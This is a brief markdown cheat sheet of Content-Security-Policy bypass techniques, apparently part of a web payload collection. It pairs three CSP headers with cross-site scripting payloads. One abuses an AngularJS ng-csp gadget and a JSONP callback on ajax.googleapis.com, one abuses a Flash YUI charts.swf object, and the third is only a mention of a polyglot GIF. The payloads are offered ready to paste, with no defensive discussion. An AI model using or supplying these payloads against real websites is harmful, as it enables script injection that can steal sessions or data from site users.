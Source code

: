 # Content-Security Bypass

Content-Security-Policy: `script-src 'self' ajax.googleapis.com`

```
<div ng-app ng-csp id=p ng-click=$event.view.alert("XSS")><script src="//ajax.googleapis.com/ajax/libs/angularjs/1.6.6/angular.min.js"></script><script async src=//ajax.googleapis.com/jsapi?callback=p.click></script>
```

Content-Security-Policy: `script-src 'self'`

```
<object type='application/x-shockwave-flash' data='https://ajax.googleapis.com/ajax/libs/yui/2.8.0r4/build/charts/assets/charts.swf?allowedDomain=\%22})))}catch(e) {alert(/XSS/)}//'><param name='AllowScriptAccess' value='always'></object>
```

Content-Security-Policy: `default-src 'self'`

\=> polyglot GIF file

